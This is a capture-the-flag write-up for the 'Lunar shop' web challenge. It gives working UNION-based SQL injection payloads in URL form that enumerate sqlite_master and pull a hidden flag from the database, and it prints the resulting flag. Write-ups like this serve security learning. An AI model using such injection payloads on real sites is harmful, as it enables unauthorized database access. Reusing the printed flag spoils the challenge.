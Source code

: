 # Lunar shop

```
We have amazing new products for our gaming service! Unfortunately we don't sell our unreleased flag product yet !

    Fuzzing is NOT allowed for this challenge, doing so will lead to IP rate limiting!

https://meteor.sunshinectf.games 
```

The `product_id` is prone to SQL injection. Find hidden table names after some attempts to enumerate the database used, inspired by <https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#UnionInjections>:

```
# 2 UNION SELECT 1, 'anotheruser', 'anystring' name from sqlite_master --
https://meteor.sunshinectf.games/product?product_id=2%20UNION%20SELECT%201,%20%27anotheruser%27,%20%27any%20string%27,%20name%20from%20sqlite_master--
```

It gives us the `flag` table name. Query flag from it:

```
# 2 UNION SELECT 1, 'anotheruser', 'anystring', flag from flag --
https://meteor.sunshinectf.games/product?product_id=2%20UNION%20SELECT%201,%20%27anotheruser%27,%20%27any%20string%27,%20flag%20from%20flag--
```

Result:


```
ID 	Name 	Description 	Price
1 	anotheruser 	any string 	sun{baby_SQL_injection_this_is_known_as_error_based_SQL_injection_8767289082762892}
```

Flag: `sun{baby_SQL_injection_this_is_known_as_error_based_SQL_injection_8767289082762892}`.
